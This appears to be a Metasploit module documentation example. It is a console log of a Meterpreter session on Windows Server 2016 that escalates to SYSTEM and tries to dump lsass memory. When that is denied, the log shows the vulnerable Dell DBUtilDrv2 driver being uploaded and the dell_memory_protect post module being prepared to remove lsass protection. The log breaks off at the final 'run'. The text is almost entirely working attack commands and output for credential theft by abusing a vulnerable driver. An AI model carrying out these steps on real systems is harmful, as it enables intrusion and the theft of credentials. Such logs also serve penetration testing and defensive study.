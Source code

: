 ### Windows Server 2016 (10.0.14393) x64 using DBUtilDrv2 version 2.5 and PID option set to 0

```
[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.8:45172 ) at 2021-12-18 04:12:03 -0800

meterpreter > sysinfo
Computer        : WIN-7ESIGFVFQEG
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-7ESIGFVFQEG\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 664  504   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use post/windows/gather/memory_dump
msf post(windows/gather/memory_dump) > set SESSIOn 1
SESSIOn => 1
msf post(windows/gather/memory_dump) > set PID 664
PID => 664
msf post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf post(windows/gather/memory_dump) > run

[*] Running module against WIN-7ESIGFVFQEG
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_5/ C:\\Windows\\Temp\\
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect
msf post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp\\
DRIVER_PATH => C:\Windows\Temp\
msf post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf post(windows/manage/dell_memory_protect) > run

```